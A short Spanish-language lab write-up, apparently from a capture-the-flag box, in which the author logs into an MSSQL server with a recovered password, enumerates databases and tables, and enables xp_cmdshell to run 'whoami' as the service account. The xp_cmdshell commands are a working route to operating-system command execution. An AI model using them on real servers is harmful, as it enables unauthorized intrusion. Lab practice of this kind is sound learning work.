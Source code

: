 cuando uso el programa de mssqlclient y me autentico con la contraseña que hemos conseguido antes,
entro a una base de datos que usa mssql. ahora la dificultad está en saber manejarse por una mssql.

listo las bases de datos que hay:

```
SELECT name FROM master.sys.databases 
```

master
tempdb
model
msdb

pruebo con msdb

(https://chartio.com/resources/tutorials/sql-server-list-tables-how-to-show-all-tables/)
(https://stackoverflow.com/questions/147659/get-list-of-databases-from-sql-server)

USE msdb
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
SELECT name FROM SYSOBJECTS WHERE xtype = 'U';

SELECT * FROM INFORMATION_SCHEMA.TABLES;

Las tablas que tiene la base de datos master son:
1) spt_fallback_db
2) spt_fallback_dev
3) spt_fallback_usg
4) spt_values
5) spt_monitor
6) MS_replication_options 

SELECT * FROM TableName

TABLAS 1, 2, 3: están vacias

La tabla 4 tiene muchísimas columnas, las más llamativas son: DB Owners, DB Access Administrators, DB Security Administrators, DB DDL Administrators  
WINDOWS/NT, WINDOWS LOGIN, CERTIFICATE, SQL USER, WINDOWS USER, LOGIN, WINDOWS LOGIN,

TABLA 5: parece vacía

TABLA 6: tiene 3 columnas, transactional, merge, security_model, pero al hacer SELECT merge FROM MSreplication_options no me deja sacar información

Leyendo hacktricks he visto que se puede habilitar el xp_cmdshell, asi que:

```
sp_configure 'show advanced options', '1'
RECONFIGURE

sp_configure 'xp_cmdshell', '1'
RECONFIGURE

EXEC master..xp_cmdshell 'whoami'
-> archetype\sql_svc
```
